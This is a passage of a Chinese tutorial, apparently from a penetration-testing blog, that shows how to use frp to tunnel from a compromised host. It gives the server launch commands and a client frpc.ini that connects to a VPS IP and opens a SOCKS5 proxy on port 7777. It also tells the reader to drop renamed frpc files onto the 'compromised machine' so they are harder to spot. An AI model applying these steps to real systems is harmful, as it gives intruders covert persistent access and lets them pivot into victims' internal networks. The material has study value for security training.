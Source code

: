   2. 第一次运行要加执行权限

    
    
    chmod +777 frps

  3. 启动服务端

    
    
    ./frps -c frps.ini

frps tcp listen为7000端口，接收来自frp客户端的请求。Dashboard listen 7500为控制面板的端口

![](https://gitee.com/fuli009/images/raw/master/public/20220923200701.png)

  4. 访问控制台7500端口

![](https://gitee.com/fuli009/images/raw/master/public/20220923200702.png)

### 客户端配置

下载对应系统类型的文件。

![](https://gitee.com/fuli009/images/raw/master/public/20220923200703.png)

  1. 文件配置

客户端中的配置文件为frpc.ini，进行如下配置

    
    
    [common]  
    # 如果tls_enable为true，则frpc将通过tls连接frps。否则可能运行不起来  
    tls_enable = true  
    server_addr = 39.100.88.162  
    server_port = 7000  
       
    [plugin_socks]  
    type = tcp  
    remote_port = 7777  
    plugin = socks5

会将客户端中所有的流量通过本地的一个随机端口转发给vps的7000端口，我们访问vps的7777端口就相当于访问客户端的7000端口

  2. 前台启动

windows中

将frpc.exe和frpc.ini两个文件放到被拿下的机器中（可以将两个文件都改个名字放上去）

    
    
    frpc.exe -c frpc.ini

![](https://gitee.com/fuli009/images/raw/master/public/20220923200704.png)

这时候vps会显示success，则代表隧道建立成功

![](https://gitee.com/fuli009/images/raw/master/public/20220923200705.png)
